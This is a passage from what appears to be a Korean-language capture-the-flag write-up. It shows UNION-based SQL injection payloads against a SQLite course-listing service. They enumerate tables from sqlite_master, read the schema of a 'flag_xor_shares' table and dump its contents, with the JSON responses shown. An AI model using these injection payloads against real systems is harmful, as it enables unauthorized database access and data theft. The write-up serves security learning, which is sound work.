 	이런식으로 페이로드를 만들어 요청하면 원하는 정보를 가져올 수 있습니다.

	```sql
	0 UNION SELECT tbl_name,1,2,3 FROM sqlite_master
	```

	해당 페이로드를 삽입하면

	```json
	[
		{"course_id":"advisor","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"classroom","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"course","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"department","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"flag_xor_shares","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"grade_points","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"instructor","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"prereq","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"section","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"student","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"takes","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"teaches","title":"1","dept_name":"2","credits":"3"},
		{"course_id":"time_slot","title":"1","dept_name":"2","credits":"3"}
	]
	```

	테이블 목록을이 나열하게 됩니다.

	나영된 테이블 이름중 의심되는 ``flag_xor_shares`` 테이블을 보고

	```sql
	0 UNION SELECT sql,1,2,3 FROM sqlite_master WHERE tbl_name="flag_xor_shares"
	```

	SQL 정보를 가져오면

	```json
	[
		{
			"course_id":"CREATE TABLE flag_xor_shares (id int, hexdigest text)",
			"title":"1",
			"dept_name":"2",
			"credits":"3"
		}
	]
	```

	id, hexdigest 컬럼 정보를 가져올 수 있습니다.

	해당 ``flag_xor_shares`` 테이블의 정보를 가져오기 위해

	```sql
	0 UNION SELECT id,hexdigest,2,3 FROM flag_xor_shares
	```

	해당 페이로드를 삽입하면 이런식으로 나열됩니다.
